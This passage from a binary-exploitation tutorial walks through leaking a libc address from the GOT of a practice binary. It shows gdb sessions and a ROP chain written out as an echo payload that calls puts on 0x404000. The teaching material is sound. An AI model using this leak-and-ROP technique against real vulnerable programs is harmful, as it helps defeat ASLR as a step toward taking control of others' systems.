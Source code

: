 When you first run the executable, before doing anything, we can print the data at 0x404000:

```
(gdb) run
[...]
Enter 14 characters then press enter!
^C

Program received signal SIGINT, Interrupt.
0x00007ffff7ec5e11 in __GI___libc_read (fd=0, buf=0x4056b0, nbytes=1024) at ../sysdeps/unix/sysv/linux/read.c:26
26        return SYSCALL_CANCEL (read, fd, buf, nbytes);

(gdb) x/xg 0x404000
0x404000 <puts@got.plt>:        0x0000000000401036
```

It stores 0x401036, which is an address in the binary itself - not in `libc.so`. But if we let the `puts()` run and *then* inspect it, it's changed:

```
(gdb) run
[...]
Enter 14 characters then press enter!
AAAAAAAAAAAAAA
What is your name?

^C

Program received signal SIGINT, Interrupt.
0x00007ffff7ec5e11 in __GI___libc_read (fd=0, buf=0x4052a0, nbytes=1024) at ../sysdeps/unix/sysv/linux/read.c:26
26	 return SYSCALL_CANCEL (read, fd, buf, nbytes);

(gdb) x/xg 0x404000
0x404000 <puts@got.plt>:	0x00007ffff7e3c0a0
```

And there's a `libc.so` address! You'll recognize them because they usually start with 0x7f.

So now, let's leak that address!

### Leaking the address

Now all we have to do is take the most recent exploit we wrote, and instead of printing off "Enter %d characters then press enter!", we print off 0x404000! It's not going to be pretty, because it's binary, but it should work.

Let's update that call stack from earlier:

* `pop rdi / ret` (0x401281)
* **The address we want to leak (0x404000)**
* `puts()` (0x401030)
* Debug (0x4011a0)

```
$ echo -ne 'AAAAAAAAAAAAAA\n''BBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOO''\x81\x12\x40\x00\x00\x00\x00\x00''\x00\x40\x40\x00\x00\x00\x00\x00''\x30\x10\x40\x00\x00\x00\x00\x00''\xa0\x11\x40\x00\x00\x00\x00\x00' > test.bin

$ ./goto-zero.patched < test.bin
Enter 14 characters then press enter!
What is your name?

Good job, BBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOO�@�Q�V
fish: Job 1, './goto-zero.patched < test.bin' terminated by signal SIGTRAP (Trace or breakpoint trap)
```
